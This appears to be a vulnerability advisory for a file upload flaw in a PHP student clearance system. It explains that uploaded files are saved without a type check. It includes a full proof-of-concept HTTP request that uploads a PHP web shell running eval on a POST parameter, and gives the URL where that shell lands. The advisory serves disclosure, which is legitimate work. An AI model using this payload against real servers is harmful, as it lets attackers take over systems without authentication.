



There is a file upload vulnerability in the Online Student Clearance System. Attackers can exploit this vulnerability to control the server without authentication.


Source code address：https://www.sourcecodester.com/php/17892/online-clearance-system.html


The vulnerability lies in the file. As can be seen in the code, 'addslashes' is used to handle the file content and file name, and the image is saved to the' uploads' directory of the server. Finally, the image path is updated to the student record corresponding to the student number in the database without verifying the file type, which leads to the occurrence of the file upload vulnerability.




Vulnerability verification：

```
POST /student_clearance/edit-photo.php HTTP/1.1
Host: 192.168.1.8
Content-Length: 311
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.8
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFVBXFbaIv8BtfS2n
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.8/student_clearance/edit-photo.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryFVBXFbaIv8BtfS2n
Content-Disposition: form-data; name="userImage"; filename="kru.php"
Content-Type: image/jpeg

<?php
eval($_POST["pass1"]);

------WebKitFormBoundaryFVBXFbaIv8BtfS2n
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryFVBXFbaIv8BtfS2n--


```

 


The address after the file is uploaded is：http://192.168.1.8/student_clearance/uploads/kru.php




